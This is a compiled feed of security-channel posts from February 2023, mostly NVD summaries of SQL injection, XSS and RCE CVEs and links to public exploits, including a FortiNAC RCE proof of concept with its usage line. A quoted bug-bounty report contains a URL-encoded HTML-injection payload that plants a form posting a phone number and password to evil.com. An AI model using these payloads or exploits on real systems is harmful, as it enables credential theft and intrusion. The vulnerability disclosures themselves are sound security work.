A vulnerability has been found in SourceCodester Best POS Management System 1.0 and classified as critical. Affected by this vulnerability is an unknown functionality of the file billing/index.php?id&#61;9. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The identifier VDB-221593 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32854

<blockquote>
‼ CVE-2021-32854 ‼

textAngular is a text editor for Angular.js. Version 1.5.16 and prior are vulnerable to copy-paste cross-site scripting (XSS). For this particular type of XSS, the victim needs to be fooled into copying a malicious payload into the text editor. There are no known patches.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32860

<blockquote>
‼ CVE-2021-32860 ‼

iziModal is a modal plugin with jQuery. Versions prior to 1.6.1 are vulnerable to cross-site scripting (XSS) when handling untrusted modal titles. An attacker who is able to influence the field `title` when creating a `iziModal` instance is able to supply arbitrary `html` or `javascript` code that will be rendered in the context of a user, potentially leading to `XSS`. Version 1.6.1 contains a patch for this issue

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32856

<blockquote>
‼ CVE-2021-32856 ‼

Microweber is a drag and drop website builder and content management system. Versions 1.2.12 and prior are vulnerable to copy-paste cross-site scripting (XSS). For this particular type of XSS, the victim needs to be fooled into copying a malicious payload into the text editor. A fix was attempted in versions 1.2.9 and 1.2.12, but it is incomplete.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32855

<blockquote>
‼ CVE-2021-32855 ‼

Vditor is a browser-side Markdown editor. Versions prior to 3.8.7 are vulnerable to copy-paste cross-site scripting (XSS). For this particular type of XSS, the victim needs to be fooled into copying a malicious payload into the text editor. Version 3.8.7 contains a patch for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32858

<blockquote>
‼ CVE-2021-32858 ‼

esdoc-publish-html-plugin is a plugin for the document maintenance software ESDoc. TheHTML sanitizer in esdoc-publish-html-plugin 1.1.2 and prior can be bypassed which may lead to cross-site scripting (XSS) issues. There are no known patches for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32859

<blockquote>
‼ CVE-2021-32859 ‼

The Baremetrics date range picker is a solution for selecting both date ranges and single dates from a single calender view. Versions 1.0.14 and prior are prone to cross-site scripting (XSS) when handling untrusted `placeholder` entries. An attacker who is able to influence the field `placeholder` when creating a `Calendar` instance is able to supply arbitrary `html` or `javascript` that will be rendered in the context of a user leading to XSS. There are no known patches for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-03-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32857

<blockquote>
‼ CVE-2021-32857 ‼

Cockpit is a content management system that allows addition of content management functionality to any site. In versions 0.12.2 and prior, bad HTML sanitization in `htmleditor.js` may lead to cross-site scripting (XSS) issues. There are no known patches for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0934

<blockquote>
‼ CVE-2023-0934 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository answerdev/answer prior to 1.0.5.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22984

<blockquote>
‼ CVE-2023-22984 ‼

A Vulnerability was discovered in Axis 207W network camera. There is a reflected XSS vulnerability in the web administration portal, which allows an attacker to execute arbitrary JavaScript via URL.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2015-10084

<blockquote>
‼ CVE-2015-10084 ‼

A vulnerability was found in irontec klear-library chloe and classified as critical. Affected by this issue is the function _prepareWhere of the file Controller/Rest/BaseController.php. The manipulation leads to sql injection. Upgrading to version marla is able to address this issue. The name of the patch is b25262de52fdaffde2a4434fc2a84408b304fbc5. It is recommended to upgrade the affected component. The identifier of this vulnerability is VDB-221504.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-21`

<blockquote>
Sales Tracker System 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/sales-tracker-system-10-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/sales-tracker-system-10-sql-injection.html">
https://exploit.kitploit.com/2023/02/sales-tracker-system-10-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-21`

<blockquote>
Sales Tracker System 1.0 SQL Injection
https://packetstormsecurity.com/files/171090/salestrackerssytem10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171090/salestrackerssytem10-sql.txt">
https://packetstormsecurity.com/files/171090/salestrackerssytem10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# hackgit
`2023-02-21`

* https://telegra.ph/file/ebe1148c69fbc3308ae0b.jpg
* https://www.horizon3.ai/fortinet-fortinac-cve-2022-39952-deep-dive-and-iocs/
* https://t.me/hackgit
* https://github.com/horizon3ai/CVE-2022-39952

<blockquote>
​​Fortinet FortiNAC Unauthenticated RCE

On Thursday, 16 February 2022, Fortinet released a PSIRT that details CVE-2022-39952, a critical vulnerability affecting its FortiNAC product. This vulnerability, discovered by Gwendal Guégniaud of Fortinet, allows an unauthenticated attacker to write arbitrary files on the system and as a result obtain remote code execution in the context of the root user.

https://github.com/horizon3ai/CVE-2022-39952

&#35;cve &#35;poc
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/ebe1148c69fbc3308ae0b.jpg">
https://telegra.ph/file/ebe1148c69fbc3308ae0b.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45564

<blockquote>
‼ CVE-2022-45564 ‼

SQL Injection vulnerability in znfit Home improvement ERP management system V50_20220207,v42 allows attackers to execute arbitrary sql commands via the userCode parameter to the wechat applet.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45677

<blockquote>
‼ CVE-2022-45677 ‼

SQL Injection Vulnerability in tanujpatra228 Tution Management System (TMS) via the email parameter to processes/student_login.process.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# freedomf0x
`2023-02-21`

* https://www.horizon3.ai/fortinet-fortinac-cve-2022-39952-deep-dive-and-iocs/
* https://github.com/horizon3ai/CVE-2022-39952

<blockquote>
🔥🔥🔥Fortinet FortiNAC CVE-2022-39952 Deep-Dive, PoC and IOCs
An external control of file name or path vulnerability [CWE-73] in FortiNAC webserver may allow an unauthenticated attacker to perform arbitrary write on the system.

🔖PoC exploit here
Usage:
python3 CVE-2022-39952.py --target IP --file payload
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2020-36656

<blockquote>
‼ CVE-2020-36656 ‼

The Spectra WordPress plugin before 1.15.0 does not sanitize user input as it reaches its style HTML attribute, allowing contributors to conduct stored XSS attacks via the plugin's Gutenberg blocks.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0938

<blockquote>
‼ CVE-2023-0938 ‼

A vulnerability classified as critical has been found in SourceCodester Music Gallery Site 1.0. This affects an unknown part of the file music_list.php of the component GET Request Handler. The manipulation of the argument cid leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-221553 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-21`

* https://telegra.ph/file/e9d09bb989b6dee7f6f13.jpg
* https://github.com/seanmarpo/webjars-swagger-xss

<blockquote>
​​WebJars Swagger XSS PoC

If your application includes the org.webjars:swagger-ui package within the stated vulnerable versions AND you make the Swagger UI &quot;routable&quot; (aka, it can be loaded in a browser), your application has an XSS issue.

https://github.com/seanmarpo/webjars-swagger-xss
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/e9d09bb989b6dee7f6f13.jpg">
https://telegra.ph/file/e9d09bb989b6dee7f6f13.jpg
</a>
</td></tr></table>

---

# hackgit
`2023-02-22`

* https://telegra.ph/file/84d857da36618664502ee.jpg
* https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection

<blockquote>
​​NtQueueApcThreadEx — NTDLL Gadget Injection

This novel way of using NtQueueApcThreadEx by abusing the ApcRoutine and SystemArgument[0-3] parameters by passing a random pop r32; ret gadget can be used for stealthy code injection.

https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection

&#35;redteam
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/84d857da36618664502ee.jpg">
https://telegra.ph/file/84d857da36618664502ee.jpg
</a>
</td></tr></table>

---

# hackgit
`2023-02-21`

* https://telegra.ph/file/431868c64f27936433ee8.jpg
* https://github.com/Florian-R0th/CVE-2022-39952

<blockquote>
​​CVE-2022-39952

Unauthenticated RCE in Fortinet FortiNAC

https://github.com/Florian-R0th/CVE-2022-39952

&#35;cve &#35;RCE
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/431868c64f27936433ee8.jpg">
https://telegra.ph/file/431868c64f27936433ee8.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26235

<blockquote>
‼ CVE-2023-26235 ‼

JD-GUI 1.6.6 allows XSS via util/net/InterProcessCommunicationUtil.java.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46836

<blockquote>
‼ CVE-2022-46836 ‼

PHP code injection in watolib auth.php and hosttags.php in Tribe29's Checkmk &lt;&#61; 2.1.0p10, Checkmk &lt;&#61; 2.0.0p27, and Checkmk &lt;&#61; 1.6.0p29 allows an attacker to inject and execute PHP code which will be executed upon request of the vulnerable component.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48321

<blockquote>
‼ CVE-2022-48321 ‼

Limited Server-Side Request Forgery (SSRF) in agent-receiver in Tribe29's Checkmk &lt;&#61; 2.1.0p11 allows an attacker to communicate with local network restricted endpoints by use of the host registration API.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2013-10019

<blockquote>
‼ CVE-2013-10019 ‼

A vulnerability was found in OCLC-Research OAICat 1.5.61. It has been rated as critical. This issue affects some unknown processing. The manipulation leads to sql injection. The attack may be initiated remotely. Upgrading to version 1.5.62 is able to address this issue. The name of the patch is 6cc65501869fa663bcd24a70b63f41f5cfe6b3e1. It is recommended to upgrade the affected component. The identifier VDB-221489 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2012-10008

<blockquote>
‼ CVE-2012-10008 ‼

A vulnerability, which was classified as critical, has been found in uakfdotb oneapp. This issue affects some unknown processing. The manipulation leads to sql injection. The attack may be initiated remotely. This product does not use versioning. This is why information about affected and unaffected releases are unavailable. The name of the patch is 5413ac804f1b09f9decc46a6c37b08352c49669c. It is recommended to apply a patch to fix this issue. The associated identifier of this vulnerability is VDB-221483.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-20`

<blockquote>
U.S. Department of State: xss and html injection on ( https://labs.history.state.gov)
https://vulners.com/hackerone/H1:1810656?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: there's possible xss and html injection on your  website https://labs.history.state.gov    through /card.xq?id&#61; parameter because your web did not sanatize user input  and you have vulnerable  JavaScript libraries jQuery 1.11.3 Steps To Reproduce: &#35;&#35; html injection P O C code https://labs.history.state.gov/card.xq?id&#61;%3C/title%3E%3Cbody%20style&#61;%22background:%20green;%22%3E%3Cdiv%20class&#61;%22container%22%3E%3Cform%20action&#61;%22https://www.evil.com%22%20method&#61;%22post%22%20class&#61;%22form%22%20style&#61;%22display:%20block;%22%3E%3Clabel%20for&#61;%22pnumber%22%3Ephone%20number%20%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22tel%22%20name&#61;%22pnumber%22%20id&#61;%22pnumber%22%20value&#61;%22%22%20placeholder&#61;%22phone%20number%22%20maxlength&#61;%2211%22inputmode&#61;%22tel%22%20size&#61;%2240px%22%3E%3Cbr%3E%3Clabel%20for&#61;%22pword%22%3Epassword%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22password%22%20name&#61;%22pword%22%20id&#61;%22pword%22%20value&#61;%22%22%20placeholder&#61;%22password%22%20maxlength&#61;%22200%22%20size&#61;%2240px%22height&#61;%22100px%22%3E%3Cbr%3E…
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0917

<blockquote>
‼ CVE-2023-0917 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Simple Customer Relationship Management System 1.0. This affects an unknown part of the file /php-scrm/login.php. The manipulation of the argument Password leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-221493 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0915

<blockquote>
‼ CVE-2023-0915 ‼

A vulnerability classified as critical has been found in SourceCodester Auto Dealer Management System 1.0. Affected is an unknown function of the file /adms/admin/?page&#61;user/manage_user. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-221490 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40348

<blockquote>
‼ CVE-2022-40348 ‼

Cross Site Scripting (XSS) vulnerability in Intern Record System version 1.0 in /intern/controller.php in 'name' and 'email' parameters, allows attackers to execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21574

<blockquote>
‼ CVE-2023-21574 ‼

Photoshop version 23.5.3 (and earlier), 24.1 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21593

<blockquote>
‼ CVE-2023-21593 ‼

Adobe InDesign versions ID18.1 (and earlier) and ID17.4 (and earlier) are affected by a NULL Pointer Dereference vulnerability. An unauthenticated attacker could leverage this vulnerability to achieve an application denial-of-service in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48115

<blockquote>
‼ CVE-2022-48115 ‼

The dropdown menu in jspreadsheet before v4.6.0 was discovered to be vulnerable to cross-site scripting (XSS).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21621

<blockquote>
‼ CVE-2023-21621 ‼

FrameMaker 2020 Update 4 (and earlier), 2022 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22228

<blockquote>
‼ CVE-2023-22228 ‼

Adobe Bridge versions 12.0.3 (and earlier) and 13.0.1 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22239

<blockquote>
‼ CVE-2023-22239 ‼

After Affects versions 23.1 (and earlier), 22.6.3 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26020

<blockquote>
‼ CVE-2023-26020 ‼

Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') vulnerability in Crafter Studio on Linux, MacOS, Windows, x86, ARM, 64 bit allows SQL Injection.This issue affects CrafterCMS v4.0 from 4.0.0 through 4.0.1, and v3.1 from 3.1.0 through 3.1.26.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0895

<blockquote>
‼ CVE-2023-0895 ‼

The WP Coder – add custom html, css and js code plugin for WordPress is vulnerable to time-based SQL Injection via the ‘id’ parameter in versions up to, and including, 2.5.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for authenticated attackers with administrative privileges to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36775

<blockquote>
‼ CVE-2022-36775 ‼

IBM Security Verify Access 10.0.0.0, 10.0.1.0, 10.0.2.0, 10.0.3.0, and10.0.4.0 is vulnerable to HTTP header injection, caused by improper validation of input by the HOST headers. This could allow an attacker to conduct various attacks against the vulnerable system, including cross-site scripting, cache poisoning or session hijacking. IBM X-Force ID: 233576.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-33948

<blockquote>
‼ CVE-2021-33948 ‼

SQL injection vulnerability in FantasticLBP Hotels Server v1.0 allows attacker to execute arbitrary code via the username parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24369

<blockquote>
‼ CVE-2023-24369 ‼

A cross-site scripting (XSS) vulnerability in UJCMS v4.1.3 allows attackers to execute arbitrary web scripts or HTML via injecting a crafted payload into the URL parameter under the Add New Articles function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-32441

<blockquote>
‼ CVE-2021-32441 ‼

SQL Injection vulnerability in Exponent-CMS v.2.6.0 fixed in 2.7.0 allows attackers to gain access to sensitive information via the selectValue function in the expConfig class.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://www.darkreading.com/endpoint/massive-goanywhere-rce-exploit

<blockquote>
🕴 Massive GoAnywhere RCE Exploit: Everything You Need to Know 🕴

Weeks after an exploit was first announced in a popular cloud-based file transfer service, could some organizations still be vulnerable? The answer is yes.

📖 Read

via &quot;Dark Reading&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/endpoint/massive-goanywhere-rce-exploit?utm_source=dlvr.it&utm_medium=twitter">
https://www.darkreading.com/endpoint/massive-goanywhere-rce-exploit?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Weeks after an exploit was first announced in a popular cloud-based file transfer service, could some organizations still be vulnerable? The answer is yes.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23007

<blockquote>
‼ CVE-2023-23007 ‼

An issue was discovered in ESPCMS P8.21120101 after logging in to the background, there is a SQL injection vulnerability in the function node where members are added.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2020-29168

<blockquote>
‼ CVE-2020-29168 ‼

SQL Injection vulnerability in Projectworlds Online Doctor Appointment Booking System, allows attackers to gain sensitive information via the q parameter to the getuser.php endpoint.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-17`

<blockquote>
Best POS Management System 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/best-pos-management-system-10-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/best-pos-management-system-10-sql.html">
https://exploit.kitploit.com/2023/02/best-pos-management-system-10-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-17`

<blockquote>
Argon Dashboard 1.1.2 SQL Injection
http://exploit.kitploit.com/2023/02/argon-dashboard-112-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/argon-dashboard-112-sql-injection.html">
https://exploit.kitploit.com/2023/02/argon-dashboard-112-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-17`

<blockquote>
Best POS Management System 1.0 SQL Injection
https://packetstormsecurity.com/files/171039/bestposms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171039/bestposms10-sql.txt">
https://packetstormsecurity.com/files/171039/bestposms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-17`

<blockquote>
Argon Dashboard 1.1.2 SQL Injection
https://packetstormsecurity.com/files/171031/argondashboard112-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171031/argondashboard112-sql.txt">
https://packetstormsecurity.com/files/171031/argondashboard112-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40347

<blockquote>
‼ CVE-2022-40347 ‼

SQL Injection vulnerability in Intern Record System version 1.0 in /intern/controller.php in 'phone', 'email', 'deptType' and 'name' parameters, allows attackers to execute arbitrary code and gain sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40032

<blockquote>
‼ CVE-2022-40032 ‼

SQL Injection vulnerability in Simple Task Managing System version 1.0 in login.php in 'username' and 'password' parameters, allows attackers to execute arbitrary code and gain sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23586

<blockquote>
‼ CVE-2023-23586 ‼

Due to a vulnerability in the io_uring subsystem, it is possible to leak kernel memory information to the user process. timens_install calls current_is_single_threaded to determine if the current process is single-threaded, but this call does not consider io_uring's io_worker threads, thus it is possible to insert a time namespace's vvar page to process's memory space via a page fault. When this time namespace is destroyed, the vvar page is also freed, but not removed from the process' memory, and a next page allocated by the kernel will be still available from the user-space process and can leak memory contents via this (read-only) use-after-free vulnerability. We recommend upgrading past version 5.10.161 or commit 788d0824269bef539fe31a785b1517882eafed93 https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/io_uring

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24221

<blockquote>
‼ CVE-2023-24221 ‼

LuckyframeWEB v3.5 was discovered to contain a SQL injection vulnerability via the dataScope parameter at /system/DeptMapper.xml.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23695

<blockquote>
‼ CVE-2023-23695 ‼

Dell Secure Connect Gateway (SCG) version 5.14.00.12 contains a broken cryptographic algorithm vulnerability. A remote unauthenticated attacker could potentially exploit this vulnerability by performing MitM attacks and let attackers obtain sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0883

<blockquote>
‼ CVE-2023-0883 ‼

A vulnerability has been found in SourceCodester Online Pizza Ordering System 1.0 and classified as critical. This vulnerability affects unknown code of the file /php-opos/index.php. The manipulation of the argument ID leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-221350 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24078

<blockquote>
‼ CVE-2023-24078 ‼

Real Time Logic FuguHub v8.1 and earlier was discovered to contain a remote code execution (RCE) vulnerability via the component /FuguHub/cmsdocs/.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0882

<blockquote>
‼ CVE-2023-0882 ‼

Improper Input Validation, Authorization Bypass Through User-Controlled Key vulnerability in Kron Tech Single Connect on Windows allows Privilege Abuse.This issue affects Single Connect: 2.16.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24220

<blockquote>
‼ CVE-2023-24220 ‼

LuckyframeWEB v3.5 was discovered to contain a SQL injection vulnerability via the dataScope parameter at /system/RoleMapper.xml.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24219

<blockquote>
‼ CVE-2023-24219 ‼

LuckyframeWEB v3.5 was discovered to contain a SQL injection vulnerability via the dataScope parameter at /system/UserMapper.xml.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-17`

<blockquote>
Critical RCE Vulnerability Discovered in ClamAV Open-Source Antivirus Software
https://thehackernews.com/2023/02/critical-rce-vulnerability-discovered.html
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48327

<blockquote>
‼ CVE-2022-48327 ‼

